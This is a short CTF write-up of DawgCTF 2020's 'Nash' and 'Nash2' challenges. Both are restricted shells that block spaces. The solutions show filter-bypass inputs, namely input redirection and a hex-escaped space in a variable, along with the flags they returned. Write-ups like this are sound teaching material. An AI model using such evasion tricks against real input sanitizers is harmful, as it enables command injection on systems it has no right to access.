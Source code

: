 # DawgCTF 2020

## Nash

> 150
>
> Welcome to Nash! It’s a NoSpaceBash! All you have to do is display the flag. It’s right there.
>
> `cat flag.txt`
>
> Oh yeah…you can’t use any spaces… Good luck!
>
> `nc ctf.umbccd.io 4600`
>
> Author: BlueStar

Tags: _pwn_ _shell_


### Solution

Easy...

```
nash> cat<flag.txt
DawgCTF{L1k3_H0W_gr3a+_R_sp@c3s_Th0uGh_0mg}
```

Then...

_[9:38 AM] trashcanna: @everyone We noticed an unintended solution in nash so now presenting nash version 2 electric boogaloo written by @quantumite of BlueStar!_


## Nash2

> 200
>
> It's nospacebash for real this time!
>
> `nc ctf.umbccd.io 5800`
>
> Author: BlueStar

### Solution

```
nash> FOO=$'\\x20flag.txt'&&cat$FOO
DawgCTF{n0_n0_eZ_r3d1r3ct10n_4_u_tR0LL$}
```

There's probably 100 ways to solve this.  This was the first that occurred to me.



